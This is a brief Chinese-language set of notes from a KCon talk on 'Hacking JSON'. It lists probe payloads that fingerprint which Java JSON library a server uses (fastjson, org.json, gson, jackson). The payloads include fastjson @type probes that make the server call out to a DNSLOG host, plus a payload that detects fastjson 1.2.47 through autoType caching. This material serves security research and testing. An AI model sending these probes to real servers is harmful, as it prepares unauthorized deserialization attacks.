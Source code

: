 Kcon Hacking JSON 议题乱记

鉴别 fastjson

1. DNSLOG
   `{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}`
   `{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}`

2. 根据解析变化
   `{"a":new a(1),"b":x'11',/*\*\/"c":Set[{}{}],"d":"\u0000\x00"}`
   `{"ext":"blue","name":{"$ref":"$.ext"}}`

3. 根据响应状态
   `{"@type":"whatever"}`

鉴别 org.json

1. 特殊字符
   `{a:'\r'}`

鉴别 gson

1. 浮点类型精度丢失
   `{a:1.111111111111111111111111111}`
2. 注释符
   `#\r\n{a:1}`

鉴别 jackson

1. 浮点类型精度丢失
   `{a:1.111111111111111111111111111}`
2. 注释符
   `{a:1}/*#aaaa`
3. 不支持单引号作为界定符
   `{'a':'b'}`
4. 多余的类成员
   `{"name":"a","age":18}`

fastjson 版本探测：

1.2.47 版本

```json
[
  {
    "@type": "java.lang.Class",
    "val": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "dnslog"
  }
}
]
```
